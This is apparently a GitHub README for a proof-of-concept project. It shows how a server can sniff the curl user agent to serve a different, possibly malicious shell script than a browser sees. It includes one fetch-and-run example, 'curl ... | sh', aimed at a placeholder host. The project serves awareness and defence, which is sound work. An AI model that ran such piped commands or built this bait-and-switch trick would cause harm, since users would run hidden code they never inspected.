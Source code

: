 #pipe-to-sh Proof of Concept
============================

Piping direct to sh from the web has its obvious dangers along with some
not so obvious hidden ones..

This project showcases a possible, non-obvious exploit which relies on
sniffing the browser's user agent string to change a served .sh file dependent
on whether or not the browser is curl/libcurl. This would allow a malicious
person to point a user to a perfectly reasonable looking .sh file while in
the background providing a different - perhaps evil - .sh file to the user
told to download via [curl/libcurl](http://curl.haxx.se/) like so:

    curl -s http://blah.com/install.sh | sh

This is a proof of concept; no damaging code is contained within.

For more on this please see the post on [djm.org.uk "Darian Moody, Python
Developer, London"](http://www.djm.org.uk).
